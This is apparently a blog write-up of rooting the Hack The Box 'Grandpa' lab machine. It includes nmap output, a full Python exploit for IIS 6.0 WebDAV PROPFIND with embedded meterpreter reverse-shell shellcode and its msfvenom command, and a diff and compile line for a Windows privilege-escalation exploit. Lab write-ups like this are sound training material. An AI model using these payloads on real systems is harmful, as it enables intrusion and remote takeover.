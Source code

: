Title: HTB Grandpa box writeup
Tags: oscp, htb
Summary: Manually rooting ancient box using well-known RCE
Date: 2020-10-23 17:00
Status: published

# Enumeration
Only HTTP available:
<pre>
    Nmap 7.80 scan initiated Wed Oct 21 23:10:56 2020 as: nmap -sS -p- -v -oA enum/nmap-ss-all 10.10.10.14
    Nmap scan report for grandpa.htb (10.10.10.14)
    Host is up (0.053s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE
    80/tcp open  http
    Read data files from: /usr/bin/../share/nmap
    Nmap done at Wed Oct 21 23:12:51 2020 -- 1 IP address (1 host up) scanned in 115.59 seconds
</pre>
This deployment supports WebDAV, just like `Granny` machine:
<pre>
    Nmap 7.80 scan initiated Wed Oct 21 23:14:53 2020 as: nmap -sC -A -T4 -sV -p80 -oA enum/nmap-sCVAT4-open 10.10.10.14
    Nmap scan report for grandpa.htb (10.10.10.14)
    Host is up (0.053s latency).
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods: 
    |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan: 
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |   Server Date: Wed, 21 Oct 2020 20:15:01 GMT
    |   Server Type: Microsoft-IIS/6.0
    |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
    |_  WebDAV type: Unknown
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Wed Oct 21 23:15:02 2020 -- 1 IP address (1 host up) scanned in 8.51 seconds
</pre>
It doesn't allow to list files (or there aren't any) or to upload files, like
it was done in the `Granny` machine, so there probably should be some other
way in.

# Exploitation
The box seems pretty empty so it was straightforward to try to find some
exploits for IIS 6 and there's indeed some interesting
[RCE](https://www.exploit-db.com/exploits/41738) exploit in EDB. It looked
weird with these blobs and I found an
[equivalent](https://www.exploit-db.com/exploits/41992) as a metasploit module.
After a couple of hours it was rewritten, proper offset was found and exploit
finally worked well. There was some mystic obstacle in form of instantly dying
meterpreter shell. I overcome this by producing shellcode with exact same
options (well not the host and port obviously) like in the module. Resultant
script is like this:
```python
import socket, time


ip = '10.10.10.14'
port = 80

# found by trial and error decreasing padlen from 114
padlen = 95
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
payload = 'PROPFIND / HTTP/1.1\r\n'
payload += 'Host: {}\r\n'.format(ip)
payload += 'User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)\r\n'
payload += 'Content-Length: 0\r\n'
payload += 'If: <http://{}:{}/{}'.format(ip, port, 'a' * padlen)
payload += ("\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c"
    "\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5"
    "\x99\x94\xe4\x9d\xac\xe6\x95\x83"
    "\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d"
    "\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5"
    "\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88"
    "\xc8\x82\xc8\x82\xe1\x8b\x80\xe6"
    "\xa0\x83\xe6\xb1\x84\xe5\x89\x96"
    "\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd"
    "\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4"
    "\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92"
    "\xe4\x85\x90\xe6\x99\x8d\xe1\x8f"
    "\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6"
    "\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6"
    "\xe7\x91\x81\xe4\x8d\xac\xe1\x8f"
    "\x80\xe6\xa0\x83\xe5\x8d\x83\xe6"
    "\xa9\x81\xe7\x81\x92\xe3\x8c\xb0"
    "\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81"
    "\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7"
    "\xa5\x81\xe7\xa9\x90\xe4\xa9\xac")
payload += '>'
payload += ' (Not <locktoken:write1>) <http://{}:{}/{}'.format(
    ip, port, 'b' * padlen)
payload += ("\xe5\xa9\x96\xe6\x89\x81\xe6\xb9"
    "\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5"
    "\x90\xb3\xe3\x85\x82\xe5\xa1\xa5"
    "\xe5\xa5\x81\xe7\x85\x90\xe3\x80"
    "\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5"
    "\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83"
    "\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9"
    "\x8f\xe6\xa0\x80\xe4\x89\x87\xe7"
    "\x99\xaa\xe1\x8f\x80\xe6\xa0\x83"
    "\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5"
    "\x87\xe5\x88\xb4\xe4\xad\xa6\xe4"
    "\xad\x82\xe7\x91\xa4\xe7\xa1\xaf"
    "\xe6\x82\x82\xe6\xa0\x81\xe5\x84"
    "\xb5\xe7\x89\xba\xe7\x91\xba\xe4"
    "\xb5\x87\xe4\x91\x99\xe5\x9d\x97"
    "\xeb\x84\x93\xe6\xa0\x80\xe3\x85"
    "\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6"
    "\xa0\x81\xe1\x91\xa0\xe6\xa0\x83"
    "\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf"
    "\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0"
    "\x83\xd1\xae\xe6\xa0\x83\xe7\x85"
    "\xae\xe7\x91\xb0\xe1\x90\xb4\xe6"
    "\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"
    "\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4"
    "\xb1\xe6\x99\xae\xe4\xa5\x95\xe3"
    "\x81\x92\xe5\x91\xab\xe7\x99\xab"
    "\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90"
    "\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6"
    "\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8"
    "\xe4\xb5\xa9\xe3\x99\xac\xe4\x91"
    "\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6"
    "\xa0\x80\xe4\xa1\xb7\xe3\x89\x93"
    "\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd"
    "\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6"
    "\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81")

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.35 LPORT=443  \
# EXITFUNC=process PrependMigrate=true -f python -o met-1435-443.py -a x86 \
# --platform windows -e x86/unicode_mixed BufferRegister=ESI -b '\x00' -s 2000
payload += ("VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAA"
    "Z1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBil"
    "hiQzYp9pm0omTCWULKcQhDRPKNYo9oRmb4NDOpr2qXfQOZ2KEaIoJ5tMmto4opJ"
    "Kc0aNDMSH1PNwr0ma7koc23rHJdIpM0LHR3ocr3r6B3BH49XLOOrfio6uauUpD4"
    "1IpjQ0cPi7lPocb3Lqwkb3ioNW2HdnQwf2MoKOYE0Tphr5m1ypM0zKP9B0KOmgq"
    "X95J8UmiWKOGeocPSr3BkNlO4il0QR30SYolwC8vfDlTZPykO7epjKOQX14zPOE"
    "GpioWejHUKyoiokO3BCEBN1TrLplP3OBYpXhD1yoIoiojHwRYokOYoyliXcRypk"
    "Pm01PqyjEp1up344KNplpbkobLLBkR2LTrksBlhzoegMzO6p1io4loLs13Ljbll"
    "O05q8OJmyqI7GrZRQBNw2kQBJp2kNjMldKNlN148ySPH9qwaPQbkNymPiqvsdK0"
    "IZx8cLzNiDK044KyqfvMayotlGQhOlMKQVgnXWprUkFlCqmyhOKQmLdRUHdqHtK"
    "aHMT9qj336DKLLpKbkohMLyqz3Bk9t4KyqXPE9Q4KtLd1KaKoqb91J0QKO9PooO"
    "oojDKMB8kbmqMoxp3oBypIps8bWBSoBQOb4phnlsGKvLGu9xhkOJ0ehtPiqkPkP"
    "NIHDR4NpPhO9ap0kIpKOWe2JYzox9zlJjnNCox9rM0iqEk4I8fpPpPpPpPMpr0q"
    "0r0BHjJlOgoGpIoz5bw0jZpb6b7C8ryde3D1Q9oiEDE5p1dKZyo0NIxd58lXhRG"
    "Yp9pM02JKPPj9tpV1GPhLBiIVhQOYo8U1sHxIpSN06TK06aZOPrHKPzpIpYpnvq"
    "ZkP2HaHfDnsWuYoHUrspSQZIpR6oc27oxlBhYvhQO9o8UqsL8IpsMo8QH0hypMp"
    "ipkPbJypPPs8LKLojoLpyoZ5b738sE2N0Ms1YovuonQNkOlLo4Zore0p9o9okO8"
    "iSkyoYoKOZaEsnIi6sE91WSekL0duG2R6QZipocyogeAA")

payload += '>\r\n\r\n'
print "=" * 80
print 'PADLEN = {}'.format(padlen)
print payload

sock.send(payload)  
time.sleep(10)
print "*" * 80

sock.close()
```
Finally the shell popped out:

![service shell](/cstatic/htb-grandpa/service-shell.png)

# Privilege escalation
Privilege escalation was the same as for `Grandpa` box. I just grabbed
[this exploit](https://www.exploit-db.com/exploits/37755) and tinkered it a bit.
Here's the diff:
<pre>
    78c78
    < typedef DWORD NTSTATUS;
    ---
    > // typedef DWORD NTSTATUS;
    132c132
    <                 "c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32",   // Start cmd.exe
    ---
    >                 "c:\\windows\\temp\\m-1435-53.exe",   // Start cmd.exe
    423c423
    < }
    \ No newline at end of file
    ---
    > }
</pre>
Compiled with 
`i686-w64-mingw32-gcc-win32 -I /usr/share/mingw-w64/include/ 37755.c -o a.exe`.
Fortunately spawned SYSTEM meterpreter session:

![root shell](/cstatic/htb-grandpa/root-shell.png)

